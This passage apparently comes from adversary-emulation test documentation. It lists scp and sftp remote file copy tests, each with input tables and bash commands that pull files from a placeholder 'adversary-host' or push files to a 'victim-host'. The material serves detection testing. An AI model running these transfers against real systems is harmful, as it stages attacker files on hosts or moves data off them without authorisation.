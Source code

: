 ```
|------|-------------|------|---------------|
| remote_file | Path of file to copy | Path | /tmp/adversary-scp|
| username | User account to authenticate on remote host | String | adversary|
| remote_host | Remote host to copy from | String | adversary-host|
| local_path | Local path to receive scp | Path | /tmp/victim-files/|

#### Run it with `bash`! ```
scp #{username}@#{remote_host}:#{remote_file} #{local_path}
```



<br/>
<br/>

## Atomic Test #5 - sftp remote file copy (push)
Utilize sftp to perform a remote file copy (push)

**Supported Platforms:** Linux, macOS


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| local_file | Path of file to copy | Path | /tmp/adversary-sftp|
| username | User account to authenticate on remote host | String | victim|
| remote_host | Remote host to copy toward | String | victim-host|
| remote_path | Remote path to receive sftp | Path | /tmp/victim-files/|

#### Run it with `bash`! ```
sftp #{username}@#{remote_host}:#{remote_path} <<< $'put #{local_file}'
```



<br/>
<br/>

## Atomic Test #6 - sftp remote file copy (pull)
Utilize sftp to perform a remote file copy (pull)

**Supported Platforms:** Linux, macOS


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| remote_file | Path of file to copy | Path | /tmp/adversary-sftp|
| username | User account to authenticate on remote host | String | adversary|
| remote_host | Remote host to copy from | String | adversary-host|
| local_path | Local path to receive sftp | Path | /tmp/victim-files/|

#### Run it with `bash`! ```
sftp #{username}@#{remote_host}:#{remote_file} #{local_path}
```
